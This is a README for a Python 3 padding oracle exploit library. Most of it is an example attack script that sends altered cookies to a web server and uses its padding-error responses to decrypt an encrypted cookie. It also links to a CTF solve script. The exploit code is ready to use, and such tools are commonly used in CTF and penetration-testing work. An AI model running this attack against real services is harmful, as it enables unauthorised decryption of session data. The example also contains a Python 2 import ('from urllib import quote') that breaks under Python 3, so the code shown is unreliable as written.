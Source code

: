 # python3-paddingoracle

A portable padding oracle exploit API.

## Usage

To use the paddingoracle API, simply implement the **oracle()** method from the
PaddingOracle API and raise a **BadPaddingException** when the decrypter
reveals a padding oracle. To decrypt data, pass raw encrypted bytes to
**decrypt()** with a block size and optional **iv** parameter.

### Example

```python
#!/usr/bin/env python3
from paddingoracle import BadPaddingException, PaddingOracle
from base64 import b64encode, b64decode
from urllib import quote, unquote
import requests
import socket
import time

class PadBuster(PaddingOracle):
    def __init__(self, **kwargs):
        super(PadBuster, self).__init__(**kwargs)
        self.session = requests.Session()
        self.wait = kwargs.get('wait', 2.0)

    def oracle(self, data, **kwargs):
        somecookie = quote(b64encode(data))
        self.session.cookies['somecookie'] = somecookie

        while 1:
            try:
                response = self.session.get('http://www.example.com/',
                           stream=False, timeout=5, verify=False)
                break
            except (socket.error, requests.exceptions.RequestException):
                logging.exception('Retrying request in %.2f seconds...', self.wait)
                time.sleep(self.wait)
                continue

        self.history.append(response)

        if response.ok:
            logging.debug(f'No padding exception raised on {somecookie}')
            return

        raise BadPaddingException

if __name__ == '__main__':
    import logging
    import sys

    if not sys.argv[1:]:
        print(f'Usage: {sys.argv[0]} <somecookie value>')
        sys.exit(1)

    logging.basicConfig(level=logging.DEBUG)

    encrypted_cookie = b64decode(unquote(sys.argv[1]))

    padbuster = PadBuster()

    cookie = padbuster.decrypt(encrypted_cookie, block_size=8, iv=bytearray(8))

    print(f'Decrypted somecookie: {sys.argv[1]} => {cookie}')
```

See other example of solving CTF challenge (Pragyan CTF 2022: Kinda AESthetic) [here](https://github.com/zakigeyan/python3-paddingoracle/blob/master/example/solve.py).

## Credits

python3-paddingoracle is a Python 3 implementation heavily based on [python-paddingoracle](https://github.com/mwielgoszewski/python-paddingoracle) and [PadBuster](https://github.com/GDSSecurity/PadBuster).
